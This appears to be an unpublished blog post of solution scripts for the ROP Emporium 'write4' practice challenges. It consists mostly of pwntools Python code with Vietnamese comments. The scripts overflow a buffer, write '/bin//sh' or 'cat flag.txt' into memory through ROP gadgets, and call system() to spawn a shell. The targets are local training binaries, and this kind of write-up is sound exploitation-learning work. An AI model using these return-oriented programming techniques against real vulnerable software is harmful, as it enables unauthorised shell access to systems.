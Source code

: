 ```yaml
---
layout: post
published: false
title: ROP Emporium
---
```

{% highlight python linenos %}
#completed
from pwn import *

p = process('./write432')
elf = ELF('./write432')
rop = ROP(elf)

pop_edi_ebp = (rop.find_gadget(['pop edi', 'pop ebp', 'ret']))[0]
usefulGadget = 0x08048670 #mov [edi], ebp
data = 0x0804a028
SYSTEM = elf.symbols['system']
padding = 'a'*44

#Cach 1:
#payload 1: add "/bin" vao truoc
payload1 = padding + p32(pop_edi_ebp) + p32(data) + '/bin' + p32(usefulGadget)
#payload 2: add "//sh" vao sau
payload2 = p32(pop_edi_ebp) + p32(data+4) + '//sh' + p32(usefulGadget)
payload = payload1 + payload2 + p32(SYSTEM) + '1234'+ p32(data)

#Cach 2:
#payload1 = padding + p32(pop_edi_ebp) + p32(data) + 'cat ' + p32(usefulGadget)
#payload2 = p32(pop_edi_ebp) + p32(data+4) + 'flag' + p32(usefulGadget)
#payload3 = p32(pop_edi_ebp) + p32(data+8) + '.txt' + p32(usefulGadget)
#payload = payload1 + payload2 + payload3 + p32(SYSTEM) + '1234'+ p32(data)
#print p.recvall()

p.sendline(payload)
p.interactive()
{% endhighlight %}

{% highlight python linenos %}

{% endhighlight %}




{% highlight python linenos %}
#Completed
from pwn import *

p = process('./write4')
elf = ELF('./write4')
rop = ROP(elf)

pop_r14_r15 = (rop.find_gadget(['pop r14','pop r15', 'ret']))[0]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
usefulGadget = elf.symbols['usefulGadgets']
SYSTEM = elf.symbols['system']
data_addr = 0x0000000000601050
padding = 'a'*40 

payload = padding + p64(pop_r14_r15) + p64(data_addr) + '/bin//sh' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM) 

p.sendline(payload)
p.interactive()
{% endhighlight %}

{% highlight python linenos %}
from pwn import *

p = process('./write4')
elf = ELF('./write4')
rop = ROP(elf)

pop_r14_r15 = (rop.find_gadget(['pop r14','pop r15', 'ret']))[0]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
usefulGadget = elf.symbols['usefulGadgets']
SYSTEM = elf.symbols['system']
data_addr = 0x0000000000601050
padding = 'a'*40 

payload = padding + p64(pop_r14_r15) + p64(data_addr) + '/bin//sh' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM)
#payload += p64(pop_r14_r15) + p64(data_addr+8) + '.txt\x00\x00\x00\x00' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM) 
p.sendline(payload)
#print p.recvall()
p.interactive()
{% endhighlight %}
